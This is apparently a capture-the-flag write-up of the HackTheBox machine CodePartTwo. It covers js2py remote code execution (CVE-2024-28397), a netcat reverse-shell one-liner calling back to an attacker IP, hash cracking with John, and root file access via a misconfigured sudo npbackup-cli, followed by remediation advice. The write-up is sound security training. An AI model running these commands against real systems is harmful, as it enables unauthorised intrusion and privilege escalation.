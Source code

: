 # CTF Write-up — CodePartTwo from hackthebox.com

> **Summary:** Exploited a js2py SSTI RCE to get a service shell, crack a user password and SSH in, then abused a sudo-able npbackup-cli misconfiguration to escalate to root.    
> **Difficulty:** Easy  
> **HTB:** https://app.hackthebox.com/machines/692
>
![Tactics](https://img.shields.io/badge/Tactics-Source%20Code%20Analysis%20%7C%20Hash%20Cracking%20%7C%20Priv%20Esc-blue?style=flat-square)
![Tools](https://img.shields.io/badge/Tools-Nmap%20%7C%20js2py%20%7C%20John-red?style=flat-square)



---

## Table of contents
1. [Reconnaissance](#reconnaissance)
2. [Resource development](#resource-development)
3. [Initial access](#initial-access)
4. [Privilege escalation](#privilege-escalation)
5. [Findings & recommendations](#findings--recommendations)

---

## 1. Reconnaissance

### Port scan
- Performed an `nmap` scan and enumerated open services. See `evidences/nmap.txt`.  
```bash
nmap -sV -sS 10.10.11.82 -oN nmap.txt
```
- Results (high-level):
  - `8000/tcp` — HTTP (Gunicorn)
  - `22/tcp` — SSH

### Web site analysis
- after creating an account and logging in we find an execute code form:  
![code execution page](evidences/run_code_website.png) 
- we also find a download to the source code running this website:  
![download button](evidences/download_app.png)

### Source code analysis
- we download the source code and analyze the `app.py` file. See `evidences/app.py`.  
- analyzing the file we find that the code provided by the user is ran through the `js2py` library:  
![js2py code](evidences/js2py.png)
- from the requirements.txt file we find that the version is `js2py 0.74`

### CVE research
- there's a critical CVE correlated to js2py: [CVE-2024-28397](https://nvd.nist.gov/vuln/detail/CVE-2024-28397)
- there're also several PoC exploits: [PoC in python](https://github.com/advisories/GHSA-r9pp-r4xf-597r)

---

## 2. Resource development

### Reverse shell
- since the PoC allow us to do a RCE we prepare a reverse shell from [reverse shell generator](https://www.revshells.com/):   
``` bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.26 9000 >/tmp/f
```

### Listener Socket
- we start a socket listener to catch the remote connection that will be started:
``` bash
nc -lvnp 9000
```

---

## 3. Initial access
### App user access
- once everything is ready we just need to upload the PoC, run the code and get initial access: ![initial access](evidences/initial_access.png)

### System enumeration
- we accessed as user `app`, so we need to gain access as a more priviledge user
- navigating the system we find the `user.db` file and download it locally. See `evidences/user.db`:  
![users.db download](evidences/users_db_download.png)  

### Users.db enumeration
- opening the database and searching in it let us find the users hashes:  
![users hashes](evidences/user_hash.png)

### Hash cracking
- we can crack the hash using John the ripper:
``` bash
john hash.txt --wordlist=/usr/share/wordlist/rockyou.txt
```
![cracked hash](evidences/cracked_hash.png)

### User Flag
- we can now ssh into the machine:
``` bash
ssh marco@10.10.11.82
```
![user flag](evidences/user_flag.png)

---

## 4. Privilege escalation
### Linux enumeration
- we use `sudo -l` to list cmds that the user can run as privileged user and find npbackup-cli:  
![sudo cmds](evidences/sudo_cmds.png)
- we also find the config file for npbackup:  
![npbackup config](evidences/npbackup_config.png)

### Npbackup hack
- we create a version of npbackup config that backup /root folder instead of /home/app/app:  
![modified npbackup config](evidences/root_config.png)
- than we create a backup of the folder:
``` bash
npbackup-cli -c root.conf -b
```
- now we can dump file's content form this backup:
``` bash
npbackup-cli --dump /root/root.flag
```
![root flag](evidences/root_flag.png)

---

## 5. Findings & recommendations
### Key findings
| # | Category                                    | Description                                                                                            | Impact   |
| - | ------------------------------------------- | ------------------------------------------------------------------------------------------------------ | -------- |
| 1 | **Remote Code Execution (RCE)**             | The `js2py` library (v0.74) was vulnerable to arbitrary code execution (CVE-2024-28397).               | Critical |
| 2 | **Insecure Configuration Management**       | The web app allowed users to upload or execute arbitrary code, leading to exploitation.                | High     |
| 3 | **Weak Credential Storage**                 | Password hashes were stored unsalted in a SQLite database.                                             | Medium   |
| 4 | **Privilege Escalation via Backup Utility** | `npbackup-cli` was executable with elevated privileges and could be reconfigured to access root files. | High     |


### Immediate remediation (high-level)
1. **Patch and Dependency Management** Update js2py to >= 0.74.1 or any version where CVE-2024-28397 is mitigated.

2. **Secure Code Execution Handling** Never directly evaluate user-supplied input in server-side logic (especially with libraries like js2py, exec, eval, or template rendering engines).

3. **Credential and Database Security** Store credentials using strong hashing algorithms (e.g., bcrypt, argon2) with salt.

4. **Privilege Management** Restrict usage of elevated binaries (sudo access) to necessary commands only.

5. **System Hardening and Monitoring** Enable AppArmor/SELinux profiles to prevent command execution escalation.    


---
